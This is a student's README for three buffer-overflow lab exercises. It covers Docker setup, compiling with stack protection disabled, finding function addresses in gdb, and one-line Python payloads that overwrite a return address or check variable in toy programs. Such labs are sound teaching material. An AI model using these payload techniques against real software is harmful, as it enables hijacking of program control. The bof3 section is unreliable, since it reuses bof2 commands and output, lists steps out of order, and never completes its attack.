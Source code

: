 ## @author:Mai Đức Kiên
## @Id:22110046

## Exercise-Security Lab bof1
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
10. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
11. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

## Exercise-Security Lab bof2
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/e77fc665-25ba-44a2-8082-b0075633236f)
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Overflow memory we need to fill 40 characters + 4 characters of variable check address <br>
`$>echo $(python -c "print('a'*40+'\xff\xff\xff\xff')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/548b9b77-c695-48af-9e64-7334b3b7626d)
4. Else print out this statement printf("Yeah! You win!\n") <br>
`$>echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/738be82f-7ceb-487d-9b3b-2a985bde5b0f)


## Exercise-Security Lab bof3
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/085fefae-1b34-4858-8c32-20a934d187a4)

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
4. Overflow memory we need to fill 40 characters + 4 characters of variable check address <br>
`$>echo $(python -c "print('a'*40+'\xff\xff\xff\xff')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/548b9b77-c695-48af-9e64-7334b3b7626d)
5. Run code command. to open visual studio in terminal <br>
6. Run docker container from previously built image <br>
7. Run this command to create file bof1.out<br>
`$>gcc -g bof3.c -o bof3.out`<br>
8. Compile program with options to code execution on stack <br>
`$>gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
9. Load bof3.out in gdb <br>
`$> gdb -q bof3.out` <br>
10. Get the shell function address <br>
`$> disas shell` <br>
11. Else print out this statement printf("Yeah! You win!\n") <br>
`$>echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out` <br>
![image](https://github.com/user-attachments/assets/738be82f-7ceb-487d-9b3b-2a985bde5b0f)




   
